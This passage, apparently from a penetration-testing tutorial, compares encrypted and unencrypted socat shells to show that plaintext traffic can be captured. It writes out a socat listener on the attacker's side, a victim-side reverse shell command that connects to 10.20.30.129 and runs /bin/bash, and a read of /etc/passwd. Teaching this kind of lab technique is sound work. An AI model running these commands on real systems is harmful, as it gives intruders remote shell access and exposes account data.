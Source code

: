 ![](image-13.png)

As you can tell, it is not possible to make sense of the commands or data being exchanged. To better see the value of the added layer of encryption, we will compare this with an equivalent `socat` connection that does not use encryption.

1. On the attacker’s system, we run `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victim’s machine, we run `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attacker’s system, we type `cat /etc/passwd` and hit Enter/Return.

Because no encryption was used, capturing the traffic exchanged between the two systems will expose the commands, and the traffic exchanged. In the following screenshot, we can see the command sent by the attacker.
